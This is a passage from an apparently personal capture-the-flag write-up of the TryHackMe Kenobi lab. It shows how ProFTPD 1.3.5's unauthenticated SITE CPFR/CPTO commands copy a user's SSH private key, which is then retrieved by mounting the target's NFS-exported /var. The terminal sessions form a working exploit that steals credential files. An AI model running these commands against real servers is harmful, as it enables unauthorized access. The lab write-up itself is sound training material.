 THM recommends we use **searchploit** to find exploits for our version. 
```
root@ip-10-10-204-174:~# searchsploit proftpd 1.3.5
[i] Found (#2): /opt/searchsploit/files_exploits.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#2): /opt/searchsploit/files_shellcodes.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Executi | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command  | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                  | linux/remote/36742.txt
------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Here is another note from THM: 
> You should have found an exploit from ProFtpd's [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html). 

> The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Earlier we gathered that the FTP service is running as the Kenobi user and an SSH was generated for that user. We're now going to copy Kenobi's private key using the commands we just learned about from THM (**SITE CPFR** and **SITE CPTO**). 

To do this we need to run **netcat** again and run the commands like so:
```
root@ip-10-10-204-174:~# nc 10.10.116.87 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.116.87]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
What this did was copy from (**CPFR**) the `/home/kenobi/.ssh/id_rsa` file. Then copied it to (**CPTO**) `/var/tmp/id_rsa` (remember the mount we discovered earlier `/var`). 

We'll need to mount the `/var/tmp` directory to our machine (these commands are provided by THM): 

`mkdir /mnt/kenobiNFS`

`mount machine_ip:/var /mnt/kenobiNFS`

`ls -la /mnt/kenobiNFS`

```
root@ip-10-10-204-174:~# sudo mkdir /mnt/kenobiNFS
root@ip-10-10-204-174:~# sudo mount 10.10.116.87:/var /mnt/kenobiNFS
root@ip-10-10-204-174:~# ls -la /mnt/kenobiNFS/
total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  3 root root  4096 Mar 13 01:31 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 12  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root lxd   4096 Sep  4  2019 log
drwxrwsr-x  2 root mail  4096 Feb 26  2019 mail
drwxr-xr-x  2 root root  4096 Feb 26  2019 opt
```